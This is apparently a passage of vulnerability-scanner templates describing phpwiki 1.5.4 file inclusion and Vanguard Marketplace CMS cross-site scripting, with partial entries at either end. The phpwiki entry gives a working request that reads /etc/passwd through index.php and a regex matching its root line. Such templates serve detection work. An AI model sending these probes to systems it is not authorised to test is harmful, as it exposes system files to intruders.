 **Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# phpwiki 1.5.4 - Cross-Site Scripting/Local File Inclusion

## Description

- phpwiki 1.5.4 is vulnerable to cross-site scripting and local file inclusion, and allows remote unauthenticated attackers to include and return the content of locally stored files via the 'index.php' endpoint.
- severity - high
- tags - xss,edb,phpwiki,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/phpwiki/index.php/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Vanguard Marketplace CMS 2.1 - Cross-Site Scripting

## Description

- Vanguard Marketplace CMS 2.1 contains a cross-site scripting vulnerability in the message and product title tags and in the product search box.
- severity - high
- tags - vanguard,xss,packetstorm
